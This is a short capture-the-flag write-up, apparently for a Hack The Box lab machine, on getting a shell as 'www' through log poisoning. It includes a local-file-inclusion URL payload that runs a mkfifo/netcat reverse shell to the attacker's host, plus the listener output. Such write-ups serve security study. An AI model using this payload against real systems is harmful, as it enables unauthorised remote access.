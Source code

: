 

# Shell as `www`

### Log poisoning

The log file of the web service is `/var/log/httpd-access.log`.

![](attachments/poison_7.png)

It seems that the it contains `user-agent` field.
I can inject php code here.

![](attachments/poison_8.png)

Then, I can run linux commands from the remote.
Using this, I can open a reverse shell.

The following is the payload to spawn a shell.

```perl
http://10.10.10.84/browse.php?file=../../../../../../../../var/log/httpd-access.log&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209000%20%3E/tmp/f
```

```shell
──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 59073
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
$ whoami
www
```
